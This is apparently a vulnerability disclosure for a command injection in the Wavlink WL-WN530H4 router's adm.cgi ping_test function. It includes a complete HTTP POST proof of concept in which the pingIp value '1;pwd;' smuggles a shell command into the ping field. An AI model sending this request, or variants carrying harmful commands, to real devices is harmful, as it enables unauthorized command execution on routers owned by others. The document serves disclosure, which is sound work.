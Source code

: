 ## Wavlink WL-WN530H4 command injection

### Overview

* Vendor: Wavlink

* Product: Wavlink WL-WN530H4
* Version: 20220801

* Manufacturer's address： https://www.wavlink.com/en_us/firmware/details/45.html
* Firmware download address ：https://www.wavlink.com/en_us/firmware/details/45.html

### Vulnerability details

Wavlink WL-WN530H4 20220801 was found to contain a command injection vulnerability in the `ping_test` function of the `adm.cgi` via the `pingIp` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

![image](./img/1.png)

#### PoC

```
POST /cgi-bin/adm.cgi HTTP/1.1
Host: 192.168.10.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 103
Origin: http://192.168.10.1
Connection: close
Referer: http://192.168.0.254
Cookie: session=562230006

page=ping_test&CCMD=4&pingIp=1;pwd;
```

